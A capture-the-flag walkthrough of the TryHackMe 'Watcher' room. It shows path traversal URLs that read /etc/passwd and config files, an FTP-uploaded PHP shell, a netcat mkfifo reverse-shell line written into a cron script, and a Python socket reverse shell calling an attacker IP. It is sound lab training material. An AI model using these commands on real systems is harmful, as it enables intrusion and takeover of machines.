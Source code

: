 # Watcher CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Watcher** CTF challenge on [TryHackMe](https://tryhackme.com/room/watcher). 
---

we see open ports 80, 22 and 21

by using feroxbuster we found our first flag !!

![ferox](imgs/ferox.png "ferox")

we also know about `/secret_file_do_not_read.txt` but we dont have access to it

we also see that there is path traversal we can go to 

```
http://10.10.184.183/post.php?post=../../../../../../etc/passwd
```

![pt](imgs/pt.png "pt")

from /etc/passwd we know about users: will, mat, toby

we can also check `=../../../../../../etc/vsftpd.conf` for ftp configuration

![pt2](imgs/pt2.png "pt2")

we can also check the secret file that we dont have permission to by going to `http://10.10.184.183/post.php?post=secret_file_do_not_read.txt` 

![pt3](imgs/pt3.png "pt3")

we found some ftp credentials 

![ftp1](imgs/ftp1.png "ftp1")

we found the second flag !!

from the ftp config file we know that we have write access and from the secret file we know where are the files stored, so we can upload reverse shell via ftp and then access it via http

![ftp2](imgs/ftp2.png "ftp2")

we use put shell.php while inside files folder and then access `http://10.10.184.183/post.php?post=../../../../../../home/ftpuser/ftp/files/shell.php`

and we got access as `www-data`

![rs1](imgs/rs1.png "rs1")

in /var/www/html we can find folder called `more_secrets_a9f10a` and there is the third flag !!

![f3](imgs/f3.png "f3")

by looking at all the files we probably need to gain access as toby first becasue he has flag4 in his home folder

![home](imgs/home.png "home")

after checking sudo -l output we can run any command as toby without password so we can use this to become toby 

![sudol](imgs/sudol.png "sudol")

```
sudo -u toby /bin/bash
```

![toby](imgs/toby.png "toby")

and we got flag 4 !!

![f4](imgs/f4.png "f4")

by looking at the cron jobs, we see that user mat will execute script from `/home/toby/jobs/cow.sh` we also can modify the file

![cron](imgs/cron.png "cron")

so i will put another rev shell into this file and then we need to wait for the cron 

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.X.X 7777 >/tmp/f" > cow.sh
```

it worked we have access as mat

![rs2](imgs/rs2.png "rs2")

we got flag 5 !!

![f5](imgs/f5.png "f5")

in scripts folder there are 2 python files `cmd.py` and `will_script.py`

![sc](imgs/sc.png "sc")

we can modify the cmd.py, we also see that will_script uses the cmd.py so we can clear the cmd.py and insert the reverse shell there

cmd.py: 

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.X.X",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

the command to execute by looking at the sudo -l output

![sudol2](imgs/sudol2.png "sudol2")

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 2
```

we got access as will

![rs3](imgs/rs3.png "rs3")

we got flag 6 !!

![f6](imgs/f6.png "f6")

in /opt there is backups directory

![opt](imgs/opt.png "opt")

inside we see `key.b64` file 

![64](imgs/64.png "64")

after decoding it from base64 we see RSA private key

this coulde be a root key, now we try to login as root

![root](imgs/root.png "root")

it worked we have root access and last flag !!

![f7](imgs/f7.png "f7")

# MACHINE PWNED
